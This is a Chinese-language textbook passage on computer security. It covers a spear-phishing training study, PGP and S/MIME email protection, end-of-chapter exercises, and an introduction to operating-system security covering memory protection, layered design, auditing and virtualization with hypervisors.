一个研究团队调查了用户培训和教育是否对鱼叉式网络钓鱼攻击有效。Deanna Caputo 等人 [[CAP14]](#bib01.html#bib_106) 进行了一项实验，他们在几个月内向一家大公司约 1500 名员工发送了三封鱼叉式网络钓鱼邮件。那些上钩并点击包含链接的员工很快被发送了反网络钓鱼安全教育材料（表面上作为公司持续安全教育计划的一部分）。研究似乎表明培训对员工未来行为影响甚微：点击第一封邮件链接的人在第二、三封中更可能点击；未点击的人不太可能点击。他们还发现，基于培训页面在用户屏幕上打开的时间，大多数收件人不太可能阅读发送给他们的完整安全培训材料。

接下来我们介绍两种以不同方式保护电子邮件的产品：我们知道不应信任来自恶意或未知发送者的电子邮件内容，也知道源电子邮件地址可被伪造，因此任何消息都可能看似来自可信来源。我们需要一种方法来确保来自所谓可靠来源的电子邮件的真实性。解决该问题还有一个额外好处：不仅确保电子邮件内容的真实性和完整性，还能确保其内容在发送方和接收方之间的路径上任何位置不易获取。密码学可提供这些保护。

## PGP

`PGP` 代表 Pretty Good Privacy。它由 Phil Zimmerman 于 1991 年发明。最初是一个免费包，1996 年被 Network Associates 收购后成为商业产品。免费版本仍可用。`PGP` 广泛可用，既有商业版也有免费版。


我们经常发现使用密码学时面临的一个问题是：如何生成一个发送方和接收方都拥有、但其他人没有的通用加密密钥。PGP 通过所谓的“信任环”或用户的“密钥环”来解决密钥分发问题。一位用户直接将公钥给另一位用户，或者第二位用户从服务器获取第一位用户的公钥。有些人会在电子邮件底部附上他们的 PGP 公钥。一个人可以将第二个人的密钥给第三个人（以及第四个人，以此类推）。因此，密钥关联问题变成了“买者自负”：如果我信任你，我可能也会信任你给我的其他人的密钥。当你把你从别人那里收到的所有密钥都给我，而那些人又把他们从其他人那里得到的所有密钥给了你，那些其他人又把他们所有的密钥给了那些人，以此类推时，这个模型在智力上就崩溃了。

你给我的每个密钥都由你签名。你给我的密钥可能也被其他人签名过。我根据谁签署了密钥，来决定是否信任密钥与身份的组合。PGP 并不强制规定建立信任的策略。相反，每个用户可以自由决定对每个接收到的密钥信任多少。

根据选择了机密性、完整性、真实性或这些的某种组合，PGP 处理会执行以下部分或全部操作：

- 为对称算法创建一个随机会话密钥。
- 使用会话密钥加密消息（为了消息机密性）。
- 使用接收方的公钥加密会话密钥。
- 生成消息的摘要或哈希值；使用发送方的私钥加密该哈希值进行签名（为了消息完整性和真实性）。
- 将加密的会话密钥附加到加密的消息和摘要后。
- 将消息传输给接收方。

接收方反向执行这些步骤以检索和验证消息内容。

### S/MIME

互联网标准规定了电子邮件的发送和接收方式。通用 MIME 规范定义了电子邮件附件的格式和处理。**S/MIME**（安全多用途互联网邮件扩展）是安全电子邮件附件的互联网标准。

S/MIME 与 PGP 及其前身 PEM（隐私增强邮件）和 RIPEM 非常相似。定义 S/MIME（版本 3）的互联网标准文档描述于 [HOU99] 和 [RAM99]。S/MIME 已被商业电子邮件软件包采用，例如 Eudora 和 Microsoft Outlook。

S/MIME 与 PGP 的主要区别在于密钥交换方法。基本 PGP 依赖于每个用户与所有潜在接收者交换密钥并建立受信任接收者的信任环；它还要求建立对这些接收者密钥真实性的信任程度。S/MIME 使用分层验证的证书（通常以 X.509 格式表示）进行密钥交换。因此，使用 S/MIME 时，只要发送方和接收方有一个他们都信任的共同认证机构，就不需要预先交换密钥。

S/MIME 适用于多种加密算法，例如用于对称加密的 DES、AES 和 RC2。

S/MIME 执行的安全转换与 PGP 非常相似。PGP 最初是为纯文本消息设计的，但 S/MIME 可以处理（保护）各种附件，例如数据文件（如电子表格、图形、演示文稿、电影和声音）。因为它集成在许多商业电子邮件软件包中，S/MIME 很可能会主导安全电子邮件市场。

### 4.5 结论

互联网是一个危险的地方。正如本章所解释的，从用户的眼睛和手指到远程站点的路径看似直接，但实际上是一串脆弱的组件。其中一些部分属于网络，我们将在 **第 6 章** 中探讨网络本身的安全问题。但其他漏洞在于用户领域内，存在于浏览器、应用程序以及用户自己的行为和反应中。要改善这种情况，要么用户必须更具安全意识，要么技术必须更安全。正如本章所论证的，出于多种原因，这两种改进都不太可能发生。一些用户变得更加警惕，但同时用户群体不断增长，涌入大量年轻的新用户，他们不具备经验丰富用户的怀疑精神。而技术似乎总是响应市场对功能性（“酷”因素）的需求，而非安全性。你们作为具有健康安全威胁和漏洞理解的计算机专业人士，需要成为呼吁加强安全的理性之声。

在下一章中，我们将更深入地探讨计算环境，并探索操作系统如何参与提供安全。

### 4.6 练习

**1.** SilentBanker 中间人浏览器攻击依赖于集成到浏览器中的恶意代码。这些浏览器助手在功能上基本上是无限的。建议一种设计，使此类助手受到更严格的控制。你的方法是否限制了此类助手的实用性？

**2.** 加密随机数对于确认某方处于活跃状态并完全参与协议交换非常重要。攻击者能在许多网页攻击中得逞的一个原因是，制作外观逼真、欺骗实际站点的页面相对容易。建议一种技术，让用户确信某页面既是实时的，又来自特定站点的真实页面。也就是说，设计一种标记、数据交换或其他装置，以显示网页的真实性。

**3.** 恶意代码问题的一部分（包括插入合法交换中间的程序）在于用户很难知道一段代码到底做什么。例如，如果你自愿安装一个工具栏，你期望它能加快搜索速度或实现其他显性目的；你不会期望它拦截你的密码。概述一种方法，让代码声明其功能及所需访问的数据项。浏览器等程序能否强制执行这些访问限制？为什么？

**4.** CAPTCHA 验证码是强制某些操作必须由真人执行的一种方式。然而，验证码是视觉化的，不仅依赖于人的视力，还依赖于人识别扭曲字母和数字的能力。建议一种适合视力受限人群使用的替代方法。

**5.** 计算机间认证是否容易受到重放攻击？为什么？

**6.** 真实攻击案例涉及防空管制员计算机屏幕的网络。在此攻击中，虚假图像被输入屏幕，使天空看起来是空的，而实际上空中袭击正在进行。绘制此类系统设计者可能使用的输入、处理和输出的框图。在图中标出单点故障的位置。在某些情况下，我们可以通过复制可能故障的组件来防止单点故障。这种策略在这种情况下行得通吗？为什么？应对单点故障的另一种对策是三角测量，即从两个或更多来源获取不同种类的数据，并用每一数据片段来验证其他数据。建议三角测量如何应用于此案例。

**7.** 列出会让你更相信或不相信特定电子邮件真实性的因素。你列出的更具说服力的因素中，哪些会出现在韩国外交机密泄露的案例中？

**8.** 举一个框架攻击如何用于欺骗受害者的例子。

**9.** 解释伪造者如何为商业机构创建一个外观逼真的网站。

**10.** 解释为什么垃圾邮件发送者经常更换电子邮件地址和域名。解释为什么更换地址无法阻止其受害者回复其消息。

**11.** 为什么 Web 服务器需要知道请求客户端的地址、浏览器类型和 Cookie？

**12.** 建议一种浏览器可用来检测和阻止点击劫持攻击的技术。

**13.** 跨站脚本问题不仅仅在于脚本会执行，因为许多网站都会执行脚本。问题在于脚本被包含在站点间通信的 URL 中，因此用户或恶意进程可以在 URL 到达其预期目的地之前重写它。建议一种更安全地传输脚本的方法。

**14.** 希腊手机窃听案例中违反了哪些安全原则？

**15.** 密码学的成本、处理时间或复杂性是不使用它的正当理由吗？为什么或为什么不？

**16.** 金融机构要求客户在输入敏感数据前确认他们看到了预期的安全图片（一辆红色的热门跑车或一盘饼干），这是在试图防范哪种攻击？

## 5. 操作系统

***

本章内容：

- 对象保护：虚拟化、共享
- 内存保护：寄存器、分页、分段
- 设计特性：模块化、分层、内核化
- 可信系统：`TCB`、参考监视器、可信路径、对象重用、评估准则
- Rootkit（根工具包/根套件）：权力、设计

***

在本章中，我们将探讨操作系统在安全中的作用。尽管操作系统对于实现分离和访问控制至关重要，但它们并非坚不可摧，因此操作系统的妥协可能导致安全失效。此外，用户的对象可能与应用程序和支持例程的代码及数据混杂在一起，操作系统在分离和保护这些资源方面的能力有限。

我们将简要回顾操作系统设计（对许多读者而言这将是复习）来开始本章。然后我们将研究增强安全性的操作系统设计方面。最后，我们将讨论 Rootkit，这是对操作系统最严重的妥协；通过这种攻击，攻击者破坏了整个操作系统，从而破坏了其预期提供的所有安全保护。

### 5.1 操作系统中的安全

许多攻击是无声且不可见的。如果受害者能看到攻击并可能加以反制，那攻击有什么用？正如我们在 **第 3 章** 所述，病毒、特洛伊木马和类似形式的恶意代码可能伪装成无害程序，或附着在其他合法程序上。尽管如此，恶意代码文件存储在某处，通常在磁盘或内存中，其结构可以通过识别模式或行为的程序来检测。防御此类恶意代码的一种强大手段是预防，即在恶意软件存入内存或磁盘之前将其拦截。

操作系统是抵御各种不良行为的第一道防线。它保护一个用户免受另一个用户的侵害，确保内存或存储的关键区域不被未授权进程覆盖，执行对人员和远程操作的标识和认证，并确保关键硬件资源的公平共享。作为计算系统中强大的“交通指挥”，它也是攻击的诱人目标，因为成功攻破操作系统的奖赏是对机器及其所有组件的完全控制。

> 操作系统是所有系统资源的基本控制器——这也使其成为攻击的主要目标。

当操作系统在系统启动时初始化，它会按有序顺序启动任务，例如：首先是原始功能和设备驱动程序，然后是进程控制器，接着是文件和内存管理例程，最后是用户界面。为了建立安全性，早期任务建立坚固的防御来约束后续任务。原始操作系统功能，如进程间通信和基本输入输出，必须先于文件、目录和内存段等更复杂的结构，部分原因是这些原始功能是实现后者所必需的，也是因为基本通信是不同操作系统功能相互通信所必需的。杀毒应用程序通常启动较晚，因为它们是操作系统的附加组件；尽管如此，杀毒代码必须在操作系统允许访问可能包含病毒的新对象之前处于控制地位。显然，预防软件只有在恶意代码执行前处于活动状态时才能提供保护。

但如果恶意软件嵌入*在*操作系统*中*，使其在可能检测或阻止它的操作系统组件之前处于活动状态，会怎样？或者如果恶意软件能够绕过或接管操作系统的其他部分，又会怎样？这种顺序导致了一个重要的漏洞：在保护程序之前获得控制权意味着保护程序的能力受到限制。在这种情况下，攻击者拥有对系统的近乎完全控制：恶意代码无法被检测到，也无法被阻止。因为恶意软件以操作系统根权限运行，所以被称为 Rootkit。虽然将 Rootkit 嵌入操作系统很困难，但成功的努力绝对值得。我们将在本章后面研究 Rootkit。在研究这类恶意软件之前，我们必须先考虑组成操作系统的组件。

#### 背景：操作系统结构

操作系统是计算机器的执行程序或监督程序。操作系统不仅用于传统计算机。以下对象上都可以找到某种形式的操作系统：

- 专用设备，如家用恒温器或心脏起搏器
- 汽车（特别是发动机性能传感器和自动控制功能，如防抱死制动系统）；类似地，飞机的航空电子组件或有轨电车/大众运输系统的控制系统
- 智能手机、平板电脑或其他 Web 设备
- 网络设备，如防火墙或入侵检测和预防系统（均涵盖于 **第 6 章**）
- Web 服务器群的控制器
- （计算机）网络流量管理设备

当然，除了此列表中的项目，计算机——从微型计算机到笔记本电脑再到巨型主机——都有操作系统。操作系统的性质因其安装设备的复杂性、行使的控制程度以及支持的交互量（既包括与人类的交互，也包括与其他设备的交互）而异。因此，不存在单一的简单操作系统模型，安全功能和特性也差异很大。

从安全角度来看，我们最感兴趣的是操作系统对资源的控制：允许哪些用户对哪些对象进行哪些访问，我们将在下一节探讨这一点。

#### 普通操作系统的安全特性

多道程序操作系统执行几项与安全相关的功能。要了解其如何运作，请查看 **图 5-1**，该图说明了操作系统如何与用户交互、提供服务和分配资源。


**图 5-1** 操作系统功能

我们可以看到，系统处理了几个涉及计算机安全的特定功能：

##### 强制共享

资源应根据需要提供给用户。共享带来了保证完整性和一致性的需求。表查找结合完整性控制（如监视器或事务处理器），常用于支持受控共享。

##### 进程间通信与同步

执行中的进程有时需要与其他进程通信，或同步其对共享资源的访问。操作系统通过充当进程间的桥梁来提供这些服务，响应进程对与其他进程进行异步通信或同步的请求。进程间通信由访问控制表中介。

##### 关键操作系统数据的保护

操作系统必须维护用于实施安全性的数据。显然，如果这些数据没有受到保护以防止未经授权的访问（读取、修改和删除），操作系统就无法提供实施机制。各种技术（包括加密、硬件控制和隔离）支持操作系统安全数据的保护。

##### 保证公平服务

所有用户都期望获得 CPU 使用时间和其他服务，以便没有用户会无限期地被剥夺服务。硬件时钟与调度策略相结合以提供公平性。硬件设施与数据表相结合以提供控制。

##### 硬件接口

所有用户都访问硬件功能。公平访问和受控共享是多任务操作系统（即并发运行多个任务的系统）的标志，但更基本的需求是用户需要访问设备、通信线路、硬件时钟和处理器。极少有用户直接访问这些硬件资源，但所有用户都通过程序和工具函数来使用它们。硬件接口过去与操作系统的设计紧密绑定；然而现在，操作系统被设计为可在一系列硬件平台上运行，既是为了最大化潜在市场规模，也是为了使操作系统能适应硬件设计的改进。

##### 用户认证

操作系统必须识别每个请求访问的用户，并必须确定该用户确实是其声称的那个人。最常见的认证机制是密码比对。

#### 内存保护

每个用户的程序必须在受保护的内存区域中运行，以防止未经授权的访问。这种保护当然会防止外部人员的访问，也可能控制用户对自己程序空间受限部分的访问。差别安全性（如读、写和执行）可应用于用户内存空间的各个部分。内存保护通常由硬件机制执行，如分页或分段。

##### 文件和 I/O 设备访问控制

操作系统必须保护用户和系统文件免受未经授权的用户访问。同样，I/O 设备的使用也必须受到保护。数据保护通常通过表查找实现，如访问控制矩阵。

##### 通用对象的分配与访问控制

用户需要通用对象，例如允许并发和同步的构造。然而，对这些对象的访问必须受到控制，以免一个用户对其他用户产生负面影响。同样，表查找是提供这种保护的常用手段。

你大概能在这些原始的操作系统功能中看到许多安全隐含意义。操作系统展现出多重面貌：交通指挥员、警察、幼儿园老师、裁判、计时员、职员和管家，仅举几例。操作系统的这些基本、原始功能被称为**内核**功能，因为它们是实施安全性以及操作系统提供的其他高级操作的基础。确实，我们稍后将描述的操作系统内核，是支持所有高级操作系统功能的基本模块。

操作系统并非一开始就以我们今天所知的丰富功能集完全形成而出现的。相反，它们是从简单的支持工具演变而来的，我们将在下文中解释。操作系统的历史有助于解释操作系统为何以及如何获得了它们今天拥有的安全功能。

###### 历史小记

要理解操作系统及其安全性，了解现代操作系统是如何演变的会有所帮助。与许多其他事物的演变不同，操作系统并没有沿着一条从最简单到最复杂的直线发展，而是经历了更为曲折的演进过程。

####### 单用户

从前，没有操作系统：用户通过拨码开关将程序以二进制形式直接输入机器。在许多情况下，程序输入是通过物理操作拨动开关完成的；在其他情况下，则通过更复杂的电子方法，借助键盘、穿孔卡或纸带阅读器等输入设备来执行。因为每个用户都独占计算系统，所以用户需要预订时间块来运行机器。这些用户负责加载他们自己的支持例程库——汇编程序、编译器、共享子程序——并在使用后通过移除任何敏感代码或数据来“清理现场”。

在大多数情况下，只有一个执行线程。用户加载一个程序和任何工具支持功能，运行该程序，并等待其在计算结束时停止。唯一的安全问题是对计算机、其程序和数据的物理保护。

最早的操作系统是称为**执行程序**的简单工具，旨在协助单个程序员并使从一个用户到另一个用户的过渡更加顺畅。早期的执行程序提供用于重定位的链接器和加载器、方便访问编译器和汇编程序，以及从库中自动加载子程序。执行程序处理程序员支持的繁琐方面，在执行期间专注于单个程序员。

####### 多道程序设计与共享使用

更快的处理器、增加的用途和需求、更大的容量以及更高的成本等因素导致了共享计算的出现。单个用户设置计算机、加载程序并在结束时卸载或关机所花费的时间，是对昂贵机器和人力的低效浪费。

随着多道程序设计概念的实现，操作系统承担了更广泛的角色（并更名）。研究人员意识到两个用户可以交错访问单个计算系统的资源，从而开发出调度、共享和并发使用等概念。**多道程序操作系统**，也称为**监视器**，监督每个程序的执行。监视器发挥主动作用，而执行程序是被动的。也就是说，执行程序停留在后台，等待请求用户调用服务。但监视器主动控制计算系统，仅当请求符合系统总体良性使用时才向用户分配资源。同样，执行程序等待请求并按需提供服务；监视器则保持对所有资源的控制，允许或拒绝所有计算，并根据用户需求将资源借给他们。

> **操作系统从执行程序到监视器的转变，也是从支持用户转变为控制用户。**

多道程序设计给计算领域带来了另一项重要变革。当系统仅由单个用户使用时，唯一需要防范的力量就是该用户本人。犯错可能会让用户感到愚蠢，但该用户无法对其他用户的计算产生不利影响。然而，多个并发用户引入了更多的复杂性和风险。如果用户 B 的程序或数据对用户 A 的程序执行产生负面影响，用户 A 理应感到愤怒。因此，保护一个用户的程序和数据免受其他用户程序的侵害，成为多道程序操作系统中的一个重要问题。

具有讽刺意味的是，操作系统能力的下一次重大转变，不再是增长与复杂，而是收缩与简化。20 世纪 80 年代见证了从多用户大型机向个人计算机的转变：一台计算机供一个人使用。随着这一转变，操作系统设计倒退了二十年，放弃了受控共享和其他安全特性的许多方面。然而，这些概念并未丢失，因为相同的概念最终重新出现了，只不过不再是两个用户之间，而是单个用户的独立活动之间。

> **受控共享也意味着安全，当个人计算机成为主流时，其中的大部分安全特性都丧失了。**

#### 多任务处理

用户运行的程序通常由一个 `process`（进程）组成。^[1] 一个 `process` 会被分配系统资源：文件、设备和通信访问权、内存以及执行时间。`process` 的资源称为其 `domain`（域）。操作系统在进程之间来回切换控制权，每次激活不同的 `process` 时都会分配、释放并重新分配资源。正如你所能想象的，每次 `process` 切换都伴随着大量的簿记工作。

1. 遗憾的是，程序、`processes`（进程）、`threads`（线程）和 `tasks`（任务）的术语尚未标准化。此处提出的 `process` 和 `thread` 概念被广泛接受，因为它们直接实现于现代语言（如 `C#`）和现代操作系统（如 `Linux` 和 `Windows .NET`）中。但有些系统用 `task` 表示别的系统称为 `process` 的概念。幸运的是，一旦你掌握了特定系统如何称呼这些概念，术语的不一致就不再是严重问题。


# 进程与线程

一个 `process` 由一个或多个 `threads` 组成，它们是独立的执行流。一个 `thread` 在与该 `process` 所有其他 `threads` 相同的 `domain` 中执行。也就是说，一个 `process` 的 `threads` 共享全局内存空间、文件等。因为资源是共享的，操作系统在从一个 `thread` 切换到另一个 `thread` 时开销要小得多。因此，操作系统可以在线程间快速切换，产生类似于同时并行执行的效果。一个 `thread` 串行执行（即从头到尾），尽管当一个优先级更高的 `thread` 准备好执行时，当前 `thread` 的执行可能会被挂起。

> **进程拥有不同的资源，意味着受控访问；线程共享资源，访问控制较少。**

服务器（如打印服务器）会为每个工作包生成一个新的 `thread` 来处理。因此，当打印服务器接收到另一个打印请求（可能来自另一个用户）时，可能有一个打印作业正在打印机上进行。服务器为此第二个请求创建一个新的 `thread`；该 `thread` 准备好发送给打印机的打印包，并等待打印机就绪。通过这种方式，每个打印服务器 `thread` 负责一项打印活动，这些独立的 `threads` 执行相同的代码来准备、提交和监控一个打印作业。

最后，一个 `thread` 可以生成一个或多个 `tasks`，这是最小的可执行代码单元。`Tasks` 可以被中断，或者在必须等待并行 `task` 完成时自愿放弃控制权。如果有多个处理器，独立的 `tasks` 可以在各个处理器上执行，从而实现真正的并行性。

# 受保护对象

多道程序设计的兴起意味着计算系统的几个方面需要保护：

- 内存
- 可共享 I/O 设备，如磁盘
- 串行可重用 I/O 设备，如打印机和磁带驱动器
- 可共享程序和子过程
- 网络
- 可共享数据

随着操作系统承担起受控共享的责任，它必须保护这些对象。在以下章节中，我们将探讨操作系统强制实施这些对象保护的一些机制。许多操作系统保护机制都得到了硬件的支持。

我们希望为其中一些对象提供共享。例如，两个具有不同安全级别的用户可能想要调用相同的搜索算法或函数调用。我们希望用户能够共享算法和函数，而不损害他们各自的安全需求。

当我们考虑数据时，会意识到访问控制可以在多个层面实施：位、字节、元素或字、字段、记录、文件或卷。因此，控制的 `granularity`（粒度）是我们关心的问题。受控对象的层级越大，实施访问控制就越容易。然而，有时操作系统必须允许访问超出用户所需的范围。例如，对于大对象，仅需访问对象一部分的用户（如文件中的单条记录）必须被授予对整个对象（整个文件）的访问权限。

## 保护对象的操作系统设计

操作系统不是单块结构，而是由许多单独的例程组成。一个结构良好的操作系统还实现了多个功能和保护层级，从关键到外观。这种排序在概念上很好，但在实践中，特定功能跨越这些层。可视化操作系统的一种方式是分层，如图 5-2 所示。该图显示了从最关键（底部）到最不关键（顶部）排列的功能。当我们说“关键”时，是指对安全至关重要。因此，在该图中，功能分为三类：安全内核（强制执行安全）、操作系统内核（分配原始资源，如时间或硬件设备访问权）和其他操作系统功能（实现用户与硬件的接口）。操作系统之上是系统实用程序功能，然后是用户应用程序。在该图中分层是垂直的；其他设计者将分层视为同心圆。控制硬件和强制执行安全的关键功能被称为位于较低或内层，而不太关键的功能位于较高或外层。


**图 5-2** 分层操作系统

以密码认证为例，说明与安全相关的操作系统活动。事实上，该活动包含几个不同的操作，包括（不分先后顺序）显示用户输入密码的框、接收密码字符但回显 `*` 等字符、将用户输入与存储的密码进行比较、检查用户身份是否已通过认证，或修改系统表中的用户密码。更改系统密码表显然比显示密码输入框对安全更为关键，因为更改密码表可能允许未授权用户访问，而显示框仅仅是一个界面任务。上述功能将发生在操作系统的不同层级。因此，用户认证功能分布在多个位置实现，如图 5-3 所示。


**图 5-3** 跨越操作系统层的认证功能

## 操作系统自保护设计

现代操作系统拥有许多不同的模块，如图 5-4 所示。并非所有这些代码都来自单一来源。硬件设备驱动程序可能来自设备制造商或第三方，用户可以安装附加组件来实现不同的文件系统或用户界面等。正如你所料，替换文件系统或用户界面需要与操作系统的多个层级进行集成。系统工具（如防病毒代码）被称为“`hook`”或被纳入操作系统；这些工具随操作系统一起加载，以便在用户程序执行时处于活动状态。尽管它们来自不同来源，但所有这些模块、驱动程序和附加组件可以被统称为操作系统，因为它们执行关键功能并以增强的特权运行。


**图 5-4** 操作系统模块

从安全角度来看，这些模块来自不同的来源，并非所有来源都值得信任，且它们必须都能成功集成。操作系统设计人员和测试人员面临着一项噩梦般的工作，即确保来自不同来源的数百种不同附加组件的所有组合都能正确运行。所有这些部分都是单独维护的，因此任何模块都可能随时发生变化，但此类变更存在不兼容的风险。

### 操作系统自保护设计

操作系统必须保护自身免受妥协，才能强制执行安全策略。请想一想儿童游戏“山丘之王”。一名玩家（国王）站在土堆顶端，而其他玩家拼命爬上土堆试图将国王推下去。国王拥有身处高处的天然优势，因此能看清来者，而且重力和高度都对国王有利。如果有人真的把国王推下了土堆，那个人就会成为新国王，并必须抵御攻击者。在计算系统中，操作系统最先到达，并凭借特权和直接的硬件交互处于有利位置，以防范企图篡夺操作系统权力的代码。

“山丘之王”游戏很简单，因为同一时间只有一个国王（一次一个）。想象一下，如果有几个国王必须击退入侵者，同时还要防范来自其他国王的攻击，会有多混乱。一个国王甚至可能试图从另一个国王脚下挖走土堆，因此对国王的攻击真的可能来自四面八方。在多国王游戏中，知道信任谁以及信任到何种程度将成为挑战。（这种政治局势可能恶化为无政府状态，这对国家或计算系统都不利。）

操作系统处于类似的境地：它不仅要保护自己免受错误或恶意用户程序的侵害，还要防范来自合并模块、驱动程序和附加组件的危害，且只拥有有限的知识来判断信任哪些组件以及信任它们的什么能力。侧边栏 5-1 描述了操作系统需要在不同种类的硬件平台上运行所带来的额外困难。

> **操作系统必须保护自身，才能保护其用户和资源。**

#### 侧边栏 5-1 硬件强制保护

从 20 世纪 60 年代到 80 年代，厂商同时生产硬件和运行在其上的软件。主要的大型机操作系统——如 IBM 的 MVS、Digital Equipment 的 VAX、Burroughs 和 GE 的操作系统，以及 KSOS、PSOS、KVM、Multics 和 SCOMP 等研究系统——都是为在某一系列硬件上运行而设计的。例如，VAX 系列采用了一种实现了四个不同保护级别的硬件设计：两个保留给操作系统，第三个用于系统实用程序，最后一个分配给用户应用程序。这种结构在最关键的功能（包括实现安全性的功能）周围建立了实质上三道不同的墙。任何允许用户破坏用户态与实用程序态之间墙壁的行为，仍然无法让用户访问最敏感的保护功能。20 世纪 80 年代末的 BiiN 操作系统提供了惊人的 64,000 个由硬件强制执行的不同保护级别（或分离级别）。

两个因素改变了这一局面。首先，美国政府于 1969 年起诉 IBM，声称 IBM 实施了非法的垄断行为。作为后果，在 20 世纪 70 年代末和 80 年代，IBM 使其硬件可用于运行其他厂商的操作系统（从而向竞争对手开放了其规范）。这种放宽鼓励了操作系统选择的开放性：用户终于能够从一家制造商购买硬件，再去别处购买部分或全部操作系统。其次，始于 20 世纪 70 年代初的 Unix 操作系统，在设计上很大程度上独立于其运行的硬件。只需为每种不同的硬件平台重新编写一小部分内核，但运行在该内核之上的操作系统主体可以无需更改即可移植。

这两种情况结合在一起意味着，操作系统不再能依赖硬件支持来实现其所有关键功能。某些机器可能拥有其他硬件所缺乏的特定保护特性。因此，尽管操作系统可能仍被构建为达到多种状态，但底层硬件可能只能强制执行其中两种状态之间的分离，其余状态则必须由软件强制执行。

如今，三个最流行的操作系统家族——Windows 系列、Unix 和 Linux——都运行在许多不同种类的硬件上。（只有 Apple 的 Mac OS 与其硬件基础紧密集成。）默认的期望是有一级硬件强制分离（两种状态）。这种情况意味着攻击者距离通过 `get_root` 漏洞实现完全的系统妥陷仅一步之遥。

但是，正如我们在前面的图中所描绘的，操作系统不是一个整体，也不是作为一个对象直接“扔”进内存的。操作系统是分阶段加载的，如图 5-5 所示。该过程从基本的 I/O 支持开始，用于访问引导设备（加载后续阶段的硬件设备）。接下来，操作系统加载一个称为引导加载程序的软件，用于获取并安装操作系统的下一部分，通过“拽自己的靴带”把自己拉进来，因此得名。加载程序实例化一个原始内核，它构建操作系统低级功能的支持，如同步、进程间通信、访问控制和安全以及进程调度的支持。这些功能反过来又有助于开发高级功能，如文件系统、目录结构和操作系统的第三方附加组件。最后，激活对用户的支持，如图形用户界面。


**图 5-5** 操作系统分阶段加载

操作系统设计和激活中时序、协调和交接的复杂性是巨大的。进一步使情况复杂化的是，操作系统和附加组件一直在不断变化。一个模块中的缺陷导致其被替换，实现功能的新方法导致新代码的产生，对不同设备的支持需要更新的软件。兼容性和一致性对于操作系统功能尤为重要。

接下来，我们将探讨操作系统用于实施保护的一些工具和技术。

# 实现安全功能的操作系统工具

## 操作系统安全实现

在本节中，我们将探讨操作系统如何实际实现针对未指定类型通用对象（如文件、设备、列表、内存对象、数据库或共享表）的安全功能。为了便于理解，我们有时会以特定对象（如文件）为例。但请注意，通用机制可用于保护任何需要限制访问的对象类型。

请记住 Scott Graham 和 Peter Denning [GRA72] 阐述并在 第 2 章 中解释的基本访问控制范式：主体被允许以特定模式访问对象，且仅允许此类授权访问。在 第 2 章 中，我们介绍了几种访问控制技术：访问控制列表（`ACL`）、特权列表和能力。操作系统实现了支持访问控制的底层表以及检查可接受使用的机制。

与访问控制功能相关的另一个重要操作系统功能是审计：记录哪个主体在何时以何种方式访问了哪个对象。审计是在安全漏洞发生后进行反应的工具，而非预防工具。如果关键信息泄露，审计日志可能有助于确定确切泄露了哪些信息，以及可能由谁、在何时泄露。这种知识有助于限制漏洞造成的损害，并通过揭示此次出错的原因帮助预防未来事件。

> **审计日志显示事件中发生了什么；日志分析可指导预防未来的成功攻击。**

操作系统无法记录每一个动作，因为数据量太大。写入审计记录本身也是一个动作，会生成另一条记录，导致仅从第一次访问就产生无限的记录链。但即使我们暂时不考虑审计审计的问题，记录每一次内存位置变更或文件目录搜索也毫无意义。此外，审计追踪只有在被分析时才有用。数据过多会阻碍及时和关键的分析。

## 虚拟化

另一个重要的操作系统安全技术是虚拟化，即通过使用不同的资源来提供一组资源的外观。如果你向一群孩子展示一盘饼干，饼干可能很快就会消失。如果你藏起饼干，每次只拿出几块，就能限制孩子们的获取。操作系统也能做同样的事情。

### 虚拟机

假设一组用户（称为 A 组）只能访问 A 数据，而另一组不同的用户（B 组）只能访问 B 数据。我们可以用两台互不连接的机器轻松且可靠地实现这种分离。但出于性能、经济或效率原因，这种方法可能并不理想。如果 A 组和 B 组有重叠，严格分离就是不可能的。

另一种方法是**虚拟化**，即操作系统向每个用户展示该类用户应看到的资源。对 A 用户而言，称为**虚拟机**的机器仅包含 A 资源。对 A 用户来说，似乎有一个磁盘驱动器，其中仅包含 A 数据。A 用户无法访问甚至无法知晓 B 资源的存在，因为 A 用户无法构造命令来暴露这些资源，就像它们在一台独立的机器上一样。

> **虚拟化：向用户呈现一个仅包含其有权使用资源的系统外观**

虚拟化除安全外还有其他优势。通过虚拟机，操作系统可以用一种设备模拟另一种设备的效果。例如，如果某机构决定用基于云的存储替换本地磁盘设备，用户及其程序无需做任何更改；操作系统通过隐蔽地修改每条磁盘访问命令来虚拟化磁盘驱动器，使新命令能检索并传递正确的数据。你执行“给我这个文件的下一个字节”命令。但操作系统必须确定文件在磁盘上的物理存储位置，并将命令转换为从扇区 `s`、块 `b`、字节 `y+1` 读取。除非字节 `y` 是块的末尾，这种情况下下一个字节可能来自完全不同的磁盘位置。或者命令可能转换为云空间 `c`、文件 `f`、字节 `z`。你对这些转换毫无察觉，因为操作系统屏蔽了这些细节。

### Hypervisor

**Hypervisor**（或**虚拟机监视器**）是实现虚拟机的软件。它接收所有用户访问请求，直接传递用户被允许访问的真实资源请求，并将其他请求重定向到虚拟化资源。

虚拟化既适用于操作系统，也适用于其他资源。因此，例如，一台虚拟机可以运行早期过时机器的操作系统。开发人员希望人们过渡到新系统，而不是维护与旧操作系统的兼容性。然而，在旧系统上投入巨大的机构可能倾向于逐步过渡；为确保新系统工作正常，系统管理员可能选择并行运行新旧系统，这样如果新系统因任何原因故障，旧系统能提供不间断使用。事实上，对于投入足够大的机构，有些可能倾向于永不切换。有了运行旧系统的 Hypervisor，所有遗留应用程序和系统都能在新系统上正常工作。

Hypervisor 还可以同时支持两个或多个操作系统。假设你正在为新硬件平台开发操作系统；硬件还要一段时间才能准备好，但当它可用时，你希望同时拥有能在其上运行的操作系统。遗憾的是，你没有机器来开发和测试新系统。解决方案是模拟新硬件整体效果的虚拟机监视器。它接收来自你新操作系统的系统调用，并像真实硬件一样响应。你的操作系统无法检测到它正在软件控制的环境中运行。

这种受控环境具有明显的安全优势：考虑一家同时处理同一案件辩护和起诉业务的律师事务所。为两个团队安装两套独立的计算网络和计算系统是不可行的，特别是考虑到团队可能合法共享公共资源（例如访问图书馆或使用公共计费和调度功能）。支持分离和重叠的两台虚拟机能有效且安全地支持这双方。

虚拟机监视器最初的理由——共享大型昂贵的主框架计算机——随着更小、更便宜的服务器和个人计算机的兴起而减弱。然而，虚拟化对于开发对更专业机器集群的支持变得非常有帮助，例如大规模并行处理器。这些强大的利基机器相对稀缺，因此几乎没有动力编写能利用其硬件的操作系统。但 Hypervisor 可以支持在并行环境中使用传统操作系统和应用程序。

